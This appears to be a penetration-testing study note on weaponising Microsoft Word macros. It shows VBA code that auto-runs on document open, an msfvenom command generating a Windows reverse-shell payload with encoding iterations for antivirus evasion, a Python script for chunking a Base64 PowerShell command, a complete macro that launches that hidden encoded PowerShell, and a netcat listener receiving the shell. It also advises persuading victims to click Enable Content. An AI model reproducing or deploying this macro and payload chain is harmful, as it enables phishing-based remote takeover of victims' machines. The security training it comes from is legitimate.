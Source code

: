 ## Microsoft Word Macro
The Microsoft Word macro may be one the oldest and best-known client-side software attack vectors.
Microsoft Office applications like Word and Excel allow users to embed macros, a series of commands and instructions that are grouped together to accomplish a task programmatically. Organizations often use macros to manage dynamic content and link documents with external content. More interestingly, macros can be written from scratch in Visual Basic for Applications (VBA), which is a fully functional scripting
language with full access to ActiveX objects and the Windows Script Host, similar to JavaScript in HTML Applications.
Creating a Microsoft Word macro is as simple as choosing the VIEW ribbon and selecting Macros. We simply type a name for the macro and in the Macros in dropdown, select the name of the document the macro will be inserted into. When we click Create, a simple macro framework will be inserted into our document.

![[Pasted image 20230123001343.png]]

Let's examine our simple macro and discuss the fundamentals of VBA. The main procedure used in our VBA macro begins with the keyword Sub3 and ends with End Sub. This essentially marks the body of our macro. A Sub procedure is very similar to a Function in VBA. The difference lies in the fact that Sub procedures cannot be used in expressions because they do not return any values, whereas Functions do. At this point, our new macro, MyMacro() is simply an empty procedure and several lines beginning with an apostrophe, which marks the beginning of comments in VBA. 

```bas
Sub MyMacro()
'
' MyMacro Macro
'
'
End Sub
```
To invoke the Windows Scripting Host through ActiveX as we did earlier, we can use the CreateObject function along with the Wscript.Shell Run method. The code for that macro is shown below:

```bash
Sub MyMacro()

	CreateObject("Wscript.Shell").Run "cmd"

End Sub
```

Since Office macros are not executed automatically, we must make use of two predefined procedures, namely the AutoOpen procedure, which is executed when a new document is opened and the Document_Open procedure, which is executed when an already-open document is re-opened. Both of these procedures can call our custom procedure and therefore run our code.
```bash
Sub AutoOpen()

	MyMacro

End Sub

Sub Document_Open()

	MyMacro

End Sub

Sub MyMacro()

	CreateObject("Wscript.Shell").Run "cmd"

End Sub
```

We must save the containing document as either .docm or the older .doc format, which supports embedded macros, but must avoid the .docx format, which does not support them.
When we reopen the document containing our macro, we will be presented with a security warning, indicating that macros have been disabled. We must click Enable Content to run the macro. This is the default security setting of Microsoft Office and while it is possible to completely disable the use of macros to guard against this attack, they are often enabled as they are commonly used in most environments.

![[Pasted image 20230123001938.png]]

Once we press the Enable Content button, the macro will execute and a command prompt will open.
In the real world, if the victim does not click Enable Content, the attack will fail. To overcome this, the victim must be unaware of the potential consequences or be sufficiently encouraged by the presentation of the document to click this button.
As with the initial HTML Application, command execution is a start, but a reverse shell would be much better. To that end, we will turn to  PowerShell and use the ability to execute Metasploit shellcode using a Base64-encoded string with msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 -i 7 -f hta-psh -o evil.hta
```

(-p) payload to be used is windows/shell_reverse_tcp, (-i) for iterations that msfvenom will do before create the payload, this could be helpful if an AV is in place, (-f) for hta-psh for the type of payload that the script will generate in this case is a VBA code.
In this case, we will only extract the string with the powershell payload:
```bash
cat evil.hta
<script language="VBScript">
	window.moveTo -4000, -4000
	Set aJhA3YP = CreateObject("Wscript.Shell")
	Set nMPTP = CreateObject("Scripting.FileSystemObject")
	For each path in
Split(aJhA3YP.ExpandEnvironmentStrings("%PSModulePath%"),";")
		If nMPTP.FileExists(path + "\..\powershell.exe") Then
			aJhA3YP.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQ
AnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBu
AHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8A
```

To make this happen, we will declare a variable (Dim6) of type String containing the PowerShell command we wish to execute. We will add a line to reserve space for our string variable in our macro:

```bash
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	
	CreateObject("Wscript.Shell").Run Str
End Sub
```

We could embed the base64-encoded PowerShell script as a single String, but VBA has a 255-character limit for literal strings. This restriction does not apply to strings stored in variables, so we can split the command into multiple lines and concatenate them.
We will use a simple Python script to split our command:

```python
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Having split the Base64 encoded string into smaller chunks, we can update our exploit as shown below.

```bash
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
	Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB"
	Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A"
	Str = Str + "EYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEg"
	Str = Str + "ANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEATAAxAFgANgAyACsAY"
	Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB"
...
	Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac"
	Str = Str + "AByAGUAcwBzACkADQAKACQAcwB0AHIAZQBhAG0AIAA9ACAATgB"
	Str = Str + "lAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtA"
	Str = Str + "FIAZQBhAGQAZQByACgAJABnAHoAaQBwACkADQAKAGkAZQB4ACA"
	Str = Str + "AJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAVABvAEUAbgBkACgAK"
	Str = Str + "QA="
	CreateObject("Wscript.Shell").Run Str
End Sub
```

Saving the Word document, closing it, and reopening it will automatically execute the macro. Notice that the macro security warning only re-appears if the name of the document is changed. If we launched a Netcat listener before opening the updated document, we would see that the macro works flawlessly:
```bash
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 59111
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Offsec>
```